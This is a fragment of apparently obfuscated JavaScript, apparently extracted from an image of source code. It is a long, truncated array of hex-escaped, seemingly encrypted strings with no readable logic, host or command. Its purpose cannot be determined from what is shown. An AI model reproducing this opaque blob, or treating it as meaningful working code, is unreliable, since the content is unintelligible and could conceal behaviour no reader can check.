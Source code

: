 \x57\x52\x6c\x64\x54\x57\x46\x63\x4f\x4d\x79','\x6d\x43\x6f\x4b\x43\x4e\x39\x31','\x73\x53\x6f\x68\x45\x5a\x79','\x57\x36\x70\x64\x4c\x78\x70\x63\x4c\x72\x69','\x57\x34\x43\x51\x57\x35\x78\x64\x4e\x74\x47','\x57\x36\x52\x63\x4c\x78\x43\x6e\x57\x4f\x4f','\x57\x52\x6e\x79\x70\x59\x78\x64\x52\x53\x6b\x6e','\x75\x4d\x31\x74\x57\x35\x61','\x57\x36\x34\x72\x57\x4f\x4a\x63\x50\x78\x79','\x57\x37\x69\x35\x67\x31\x4e\x63\x54\x38\x6f\x2f\x57\x34\x61\x71\x72\x33\x57','\x41\x4b\x7a\x75\x71\x33\x61','\x76\x32\x54\x58\x76\x68\x75','\x57\x35\x42\x63\x54\x43\x6f\x57\x57\x34\x64\x63\x49\x47','\x35\x42\x2b\x61\x35\x41\x45\x77\x35\x36\x59\x69\x35\x79\x51\x62','\x71\x4b\x35\x74\x43\x4d\x65','\x44\x59\x68\x64\x48\x6d\x6b\x5a\x43\x71','\x6d\x77\x78\x64\x55\x32\x43','\x57\x34\x68\x63\x55\x43\x6f\x77\x57\x37\x42\x63\x4c\x61','\x57\x51\x31\x34\x62\x43\x6f\x63\x7a\x38\x6b\x43\x42\x47','\x57\x34\x79\x56\x64\x66\x30','\x57\x36\x39\x45\x57\x52\x74\x63\x53\x53\x6b\x6d','\x43\x4d\x54\x4e\x72\x76\x71','\x76\x67\x66\x4e','\x71\x4e\x76\x71\x41\x32\x4b','\x72\x4d\x44\x66\x75\x66\x43','\x73\x32\x31\x66\x71\x4b\x57','\x73\x65\x44\x30\x76\x4d\x71','\x36\x69\x36\x33\x35\x79\x2b\x77\x41\x77\x71','\x57\x51\x7a\x30\x67\x6d\x6f\x79\x44\x43\x6b\x74','\x57\x34\x66\x44\x57\x4f\x4e\x64\x55\x4b\x43\x4b\x57\x51\x35\x43\x79\x53\x6f\x73','\x72\x67\x31\x55\x41\x78\x43','\x57\x50\x62\x2f\x69\x38\x6f\x77\x42\x61','\x6c\x4d\x43\x53\x57\x34\x57','\x62\x43\x6f\x71\x57\x52\x4b\x74\x72\x61','\x44\x5a\x7a\x2f\x66\x74\x71','\x6a\x38\x6f\x72\x44\x4e\x76\x6e','\x79\x30\x35\x4f\x42\x67\x38','\x41\x38\x6f\x4c\x7a\x74\x4e\x63\x54\x47','\x79\x32\x43\x33\x44\x30\x69\x57\x75\x4b\x4c\x57\x6d\x57','\x57\x34\x47\x6d\x70\x4c\x4e\x63\x52\x61','\x57\x37\x50\x37\x46\x71\x57\x73','\x73\x38\x6b\x32\x6e\x65\x31\x78','\x45\x68\x50\x54\x75\x78\x43','\x73\x67\x62\x4b\x71\x43\x6b\x73\x57\x51\x6a\x45\x57\x35\x78\x63\x4c\x38\x6f\x71','\x7a\x78\x6a\x30\x45\x71','\x79\x76\x76\x78\x41\x67\x4b','\x44\x68\x4c\x75\x75\x30\x69','\x46\x43\x6b\x43\x6b\x75\x54\x77','\x76\x73\x4c\x4d\x6e\x72\x4f','\x57\x51\x4e\x64\x4b\x6d\x6b\x55\x61\x53\x6b\x49','\x57\x34\x76\x68\x57\x50\x42\x63\x54\x53\x6b\x42','\x45\x75\x50\x75\x41\x32\x43','\x74\x65\x39\x50\x43\x77\x57','\x57\x37\x39\x77\x69\x73\x2f\x63\x4f\x6d\x6b\x75\x57\x35\x74\x64\x52\x43\x6f\x65\x57\x35\x71','\x78\x57\x78\x64\x47\x43\x6b\x68\x43\x58\x2f\x63\x50\x57\x69','\x41\x67\x44\x4b\x41\x78\x61','\x57\x34\x46\x63\x4b\x4d\x30\x41\x57\x51\x34','\x42\x78\x33\x63\x52\x66\x30','\x57\x35\x4c\x35\x66\x75\x66\x51\x6c\x38\x6b\x59\x57\x36\x76\x62\x61\x57','\x45\x75\x72\x54\x7a\x77\x34','\x73\x67\x78\x64\x56\x43\x6f\x34\x57\x51\x75\x6c\x75\x57\x35\x73\x46\x57','\x57\x51\x7a\x77\x70\x74\x70\x64\x51\x47','\x67\x43\x6b\x62\x77\x53\x6f\x30\x74\x64\x71\x69\x57\x52\x75\x49\x65\x57','\x62\x77\x52\x64\x4b\x4d\x6d\x6e','\x57\x34\x75\x62\x67\x68\x46\x63\x54\x61','\x46\x32\x33\x64\x50\x61','\x6d\x4a\x69\x58\x6d\x64\x65\x5a\x6d\x74\x7a\x64','\x72\x4d\x6a\x73\x73\x78\x69','\x78\x66\x75\x76\x76\x30\x79','\x69\x67\x7a\x50\x42\x4d\x66\x53\x42\x68\x4b','\x77\x32\x4e\x63\x4a\x4b\x57\x70','\x43\x32\x76\x30\x7a\x67\x66\x30\x79\x71','\x43\x30\x7a\x69\x74\x68\x61','\x43\x30\x54\x4f\x42\x31\x4b','\x74\x65\x6a\x71\x7a\x4b\x53','\x7a\x66\x6e\x68\x74\x77\x75','\x6e\x78\x4e\x64\x48\x67\x71','\x42\x53\x6b\x36\x43\x53\x6f\x41\x57\x50\x76\x76\x7a\x38\x6b\x59','\x57\x52\x37\x64\x53\x6d\x6b\x54\x64\x38\x6b\x46','\x76\x4d\x4c\x76\x74\x4e\x43','\x6e\x49\x34\x58\x6d\x63\x34\x57','\x45\x78\x31\x38\x77\x6d\x6b\x6e','\x75\x4b\x74\x64\x49\x53\x6f\x4d\x57\x52\x71','\x57\x35\x37\x63\x51\x63\x4f\x46\x64\x71','\x6c\x4d\x34\x53\x57\x34\x35\x30','\x57\x4f\x56\x64\x49\x47\x33\x63\x50\x67\x61','\x77\x4b\x65\x41\x43\x61\x4f','\x57\x51\x33\x64\x49\x59\x42\x63\x47\x71','\x45\x4e\x48\x34\x42\x4a\x43\x33\x6e\x57\x52\x4e\x56\x51\x74\x4e\x55\x34\x71','\x79\x4c\x38\x73\x76\x61','\x57\x51\x4e\x64\x50\x38\x6b\x73\x79\x68\x42\x64\x49\x57','\x42\x32\x31\x48\x72\x32\x30','\x69\x32\x43\x31\x57\x34\x50\x53\x6c\x64\x70\x64\x56\x57','\x78\x30\x74\x64\x47\x43\x6f\x61\x57\x52\x4f','\x45\x4d\x66\x77\x74\x4d\x30','\x44\x33\x46\x63\x48\x31\x30\x38\x57\x37\x58\x77\x75\x57','\x57\x4f\x68\x63\x49\x6d\x6b\x4d\x65\x71','\x57\x51\x4a\x64\x49\x53\x6b\x74\x67\x38\x6f\x39','\x74\x67\x48\x4c\x75\x4e\x47','\x57\x4f\x4f\x68\x79\x63\x69\x79','\x70\x38\x6b\x74\x6f\x71','\x74\x74\x69\x57\x6d\x64\x66\x6b\x6d\x75\x75','\x57\x36\x58\x52\x57\x52\x6c\x64\x4a\x67\x69','\x76\x38\x6b\x6e\x6f\x32\x50\x66\x6b\x4c\x78\x63\x52\x57','\x43\x53\x6f\x63\x73\x68\x6e\x34\x57\x50\x6e\x6e\x64\x6d\x6b\x79\x57\x35\x65','\x57\x37\x71\x72\x63\x76\x70\x63\x4e\x61','\x74\x77\x44\x56\x45\x76\x6d','\x57\x4f\x4b\x6a\x65\x38\x6f\x62\x61\x71','\x71\x4c\x62\x62\x72\x32\x6d','\x57\x37\x53\x63\x69\x67\x4c\x42\x63\x61','\x7a\x4b\x4b\x4b\x75\x47\x69','\x76\x68\x56\x64\x51\x53\x6b\x4c\x57\x37\x61','\x57\x51\x61\x62\x6b\x38\x6f\x4c\x67\x71','\x6a\x65\x6c\x64\x4b\x67\x53\x35','\x46\x38\x6f\x7a\x71\x74\x37\x63\x4c\x47','\x78\x30\x2f\x63\x56\x43\x6f\x77\x76\x57','\x45\x65\x72\x71\x76\x78\x61','\x79\x78\x6a\x4e','\x57\x37\x69\x78\x62\x78\x61','\x7a\x68\x48\x41\x73\x4b\x71','\x63\x38\x6b\x6e\x77\x43\x6f\x4c\x76\x68\x47\x66\x57\x50\x7a\x54\x66\x61','\x42\x53\x6f\x67\x74\x73\x56\x64\x48\x61','\x68\x4a\x4a\x64\x48\x43\x6b\x54\x66\x53\x6f\x75\x57\x50\x6c\x64\x56\x6d\x6f\x69','\x75\x33\x76\x41\x41\x68\x4b','\x68\x6d\x6f\x39\x57\x51\x34\x69','\x44\x4d\x44\x74\x75\x4d\x30','\x76\x76\x72\x48\x73\x75\x69','\x43\x67\x39\x62\x44\x67\x47','\x77\x4e\x6e\x35\x74\x67\x53','\x76\x75\x35\x49\x73\x33\x75','\x35\x4f\x51\x77\x35\x41\x45\x59\x36\x69\x36\x54\x35\x42\x32\x78\x37\x37\x32\x6c','\x73\x61\x5a\x64\x47\x38\x6b\x75\x7a\x71','\x75\x68\x7a\x74\x71\x4b\x65','\x45\x67\x44\x54\x74\x76\x71','\x57\x35\x2f\x63\x4f\x67\x57\x6c','\x6c\x76\x43\x6a\x57\x50\x35\x5a\x6d\x4d\x2f\x64\x4a\x61\x46\x63\x4b\x71','\x77\x78\x62\x4b\x42\x4c\x4b','\x75\x31\x72\x7a\x74\x33\x75','\x57\x4f\x6c\x63\x4b\x6d\x6f\x6e\x57\x50\x4a\x64\x55\x47','\x68\x6